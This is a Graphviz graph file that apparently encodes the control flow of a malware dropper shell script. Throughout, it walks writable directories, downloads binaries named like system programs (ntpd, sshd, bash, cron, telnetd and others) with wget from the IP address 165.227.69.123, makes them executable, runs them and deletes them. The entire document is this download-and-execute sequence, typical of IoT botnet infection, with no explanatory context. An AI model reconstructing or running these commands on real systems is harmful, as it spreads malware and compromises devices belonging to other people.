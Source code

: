 digraph {
2 [label=" cd /tmp"];
6 [label=" cd /var/run"];
10 [label=" cd /mnt"];
14 [label=" cd /root"];
18 [label=" cd /"];
22 [label=" wget http://165.227.69.123/ntpd"];
26 [label=" chmod +x ntpd"];
31 [label="BINARY_COMMAND"];
34 [label=" rm -rf ntpd"];
39 [label=" cd /tmp"];
43 [label=" cd /var/run"];
47 [label=" cd /mnt"];
51 [label=" cd /root"];
55 [label=" cd /"];
59 [label=" wget http://165.227.69.123/sshd"];
63 [label=" chmod +x sshd"];
68 [label="BINARY_COMMAND"];
71 [label=" rm -rf sshd"];
76 [label=" cd /tmp"];
80 [label=" cd /var/run"];
84 [label=" cd /mnt"];
88 [label=" cd /root"];
92 [label=" cd /"];
96 [label=" wget http://165.227.69.123/openssh"];
100 [label=" chmod +x openssh"];
105 [label="BINARY_COMMAND"];
108 [label=" rm -rf openssh"];
113 [label=" cd /tmp"];
117 [label=" cd /var/run"];
121 [label=" cd /mnt"];
125 [label=" cd /root"];
129 [label=" cd /"];
133 [label=" wget http://165.227.69.123/bash"];
137 [label=" chmod +x bash"];
142 [label="BINARY_COMMAND"];
145 [label=" rm -rf bash"];
150 [label=" cd /tmp"];
154 [label=" cd /var/run"];
158 [label=" cd /mnt"];
162 [label=" cd /root"];
166 [label=" cd /"];
170 [label=" wget http://165.227.69.123/tftp"];
174 [label=" chmod +x tftp"];
179 [label="BINARY_COMMAND"];
182 [label=" rm -rf tftp"];
187 [label=" cd /tmp"];
191 [label=" cd /var/run"];
195 [label=" cd /mnt"];
199 [label=" cd /root"];
203 [label=" cd /"];
207 [label=" wget http://165.227.69.123/wget"];
211 [label=" chmod +x wget"];
216 [label="BINARY_COMMAND"];
219 [label=" rm -rf wget"];
224 [label=" cd /tmp"];
228 [label=" cd /var/run"];
232 [label=" cd /mnt"];
236 [label=" cd /root"];
240 [label=" cd /"];
244 [label=" wget http://165.227.69.123/cron"];
248 [label=" chmod +x cron"];
253 [label="BINARY_COMMAND"];
256 [label=" rm -rf cron"];
261 [label=" cd /tmp"];
265 [label=" cd /var/run"];
269 [label=" cd /mnt"];
273 [label=" cd /root"];
277 [label=" cd /"];
281 [label=" wget http://165.227.69.123/ftp"];
285 [label=" chmod +x ftp"];
290 [label="BINARY_COMMAND"];
293 [label=" rm -rf ftp"];
298 [label=" cd /tmp"];
302 [label=" cd /var/run"];
306 [label=" cd /mnt"];
310 [label=" cd /root"];
314 [label=" cd /"];
318 [label=" wget http://165.227.69.123/pftp"];
322 [label=" chmod +x pftp"];
327 [label="BINARY_COMMAND"];
330 [label=" rm -rf pftp"];
335 [label=" cd /tmp"];
339 [label=" cd /var/run"];
343 [label=" cd /mnt"];
347 [label=" cd /root"];
351 [label=" cd /"];
355 [label=" wget http://165.227.69.123/sh"];
359 [label=" chmod +x sh"];
364 [label="BINARY_COMMAND"];
367 [label=" rm -rf sh"];
372 [label=" cd /tmp"];
376 [label=" cd /var/run"];
380 [label=" cd /mnt"];
384 [label=" cd /root"];
388 [label=" cd /"];
392 [label=" wget http://165.227.69.123/ "];
396 [label=" chmod +x  "];
401 [label=" ./ "];
404 [label=" rm -rf  "];
409 [label=" cd /tmp"];
413 [label=" cd /var/run"];
417 [label=" cd /mnt"];
421 [label=" cd /root"];
425 [label=" cd /"];
429 [label=" wget http://165.227.69.123/apache2"];
433 [label=" chmod +x apache2"];
438 [label="BINARY_COMMAND"];
441 [label=" rm -rf apache2"];
446 [label=" cd /tmp"];
450 [label=" cd /var/run"];
454 [label=" cd /mnt"];
458 [label=" cd /root"];
462 [label=" cd /"];
466 [label=" wget http://165.227.69.123/telnetd"];
470 [label=" chmod +x telnetd"];
475 [label="BINARY_COMMAND"];
478 [label=" rm -rf telnetd"];
429 -> 433;
433 -> 438;
330 -> 335;
174 -> 179;
298 -> 302;
298 -> 318;
113 -> 117;
113 -> 133;
438 -> 441;
145 -> 150;
256 -> 261;
475 -> 478;
14 -> 18;
14 -> 22;
100 -> 105;
68 -> 71;
117 -> 121;
117 -> 133;
182 -> 187;
150 -> 154;
150 -> 170;
96 -> 100;
142 -> 145;
339 -> 343;
339 -> 355;
380 -> 384;
380 -> 392;
43 -> 47;
43 -> 59;
187 -> 191;
187 -> 207;
244 -> 248;
125 -> 129;
125 -> 133;
454 -> 458;
454 -> 466;
364 -> 367;
179 -> 182;
335 -> 339;
335 -> 355;
18 -> 22;
261 -> 265;
261 -> 281;
84 -> 88;
84 -> 96;
450 -> 454;
450 -> 466;
154 -> 158;
154 -> 170;
388 -> 392;
343 -> 347;
343 -> 355;
47 -> 51;
47 -> 59;
71 -> 76;
285 -> 290;
318 -> 322;
219 -> 224;
293 -> 298;
392 -> 396;
376 -> 380;
376 -> 392;
269 -> 273;
269 -> 281;
129 -> 133;
224 -> 228;
224 -> 244;
367 -> 372;
108 -> 113;
248 -> 253;
211 -> 216;
240 -> 244;
158 -> 162;
158 -> 170;
228 -> 232;
228 -> 244;
314 -> 318;
347 -> 351;
347 -> 355;
322 -> 327;
306 -> 310;
306 -> 318;
327 -> 330;
92 -> 96;
121 -> 125;
121 -> 133;
166 -> 170;
133 -> 137;
458 -> 462;
458 -> 466;
22 -> 26;
26 -> 31;
80 -> 84;
80 -> 96;
421 -> 425;
421 -> 429;
413 -> 417;
413 -> 429;
162 -> 166;
162 -> 170;
216 -> 219;
2 -> 6;
2 -> 22;
290 -> 293;
55 -> 59;
265 -> 269;
265 -> 281;
409 -> 413;
409 -> 429;
137 -> 142;
191 -> 195;
191 -> 207;
31 -> 34;
236 -> 240;
236 -> 244;
396 -> 401;
105 -> 108;
273 -> 277;
273 -> 281;
207 -> 211;
462 -> 466;
253 -> 256;
417 -> 421;
417 -> 429;
441 -> 446;
359 -> 364;
355 -> 359;
59 -> 63;
425 -> 429;
302 -> 306;
302 -> 318;
351 -> 355;
232 -> 236;
232 -> 244;
195 -> 199;
195 -> 207;
470 -> 475;
6 -> 10;
6 -> 22;
10 -> 14;
10 -> 22;
446 -> 450;
446 -> 466;
203 -> 207;
384 -> 388;
384 -> 392;
88 -> 92;
88 -> 96;
39 -> 43;
39 -> 59;
277 -> 281;
466 -> 470;
401 -> 404;
170 -> 174;
310 -> 314;
310 -> 318;
372 -> 376;
372 -> 392;
63 -> 68;
404 -> 409;
76 -> 80;
76 -> 96;
199 -> 203;
199 -> 207;
34 -> 39;
51 -> 55;
51 -> 59;
281 -> 285;
}
